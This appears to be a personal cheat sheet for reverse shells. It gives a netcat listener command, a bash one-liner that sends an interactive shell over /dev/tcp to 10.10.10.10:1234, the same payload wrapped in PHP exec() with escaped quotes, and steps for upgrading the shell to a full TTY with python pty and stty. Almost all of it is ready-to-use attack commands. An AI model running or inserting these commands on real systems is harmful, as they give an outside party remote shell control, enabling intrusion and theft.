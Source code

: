 # Reverse Shell


listen with `nc`
`nc -lnvp 4444`

Know my ip: `	`

# Bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

# PHP - Bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'");
may have to scape the quotes
exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'\");








# estabilize shell?

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```


```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```